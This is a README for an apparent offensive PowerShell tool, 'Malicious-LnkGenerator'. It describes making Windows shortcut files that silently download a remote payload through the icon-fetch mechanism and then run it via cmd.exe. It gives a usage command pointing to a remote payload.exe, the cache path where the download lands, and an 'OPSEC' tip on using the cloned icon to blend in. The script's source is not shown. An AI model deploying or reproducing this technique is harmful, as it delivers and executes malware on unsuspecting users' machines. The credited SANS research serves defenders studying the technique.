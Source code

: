 # Malicious-LnkGenerator
Download (and execute) payloads using Windows shortcuts (.lnk) files. Lnk files can download remote icons (`.ico` files). This mechanism can be abused to trick Windows into downloading arbitrary files. 
Executing the shortcut will then execute the downloaded payload.

## Usage
```
.\LnkGen.ps1 <outfile> <uri>
.\LnkGen.ps1 C:\Users\User\Desktop\Shortcut.lnk http://192.168.1.2/payload.exe
```

## Some notes
The file will be downloaded without executing the `.lnk` itself. This will also be the case when unzipping the `.lnk`. 
The file will be saved as `filename[1].extension` and stored in the following location (tested on Windows 10):
```
%USERPROFILE%\AppData\Local\Microsoft\Windows\INetCache\IE\<randomfolder>\<filename[1].extension>
```
It uses `C:\Windows\System32\cmd.exe` to execute the payload using additional arguments to search through the random folders looking for our payload.


This is a simple proof of concept and does not account for rapid use or using it in production environments. 


> OPSEC: The shortcut will clone the `icon` of the payload once it is downloaded. You can use this to your advantage when blending into an environment.

## Credits 
This script is based on the work of [Jan Kopriva](https://untrustednetwork.net/en/) which can be read in the following [blog](https://isc.sans.edu/diary/Using+Shell+Links+as+zerotouch+downloaders+and+to+initiate+network+connections/26276)

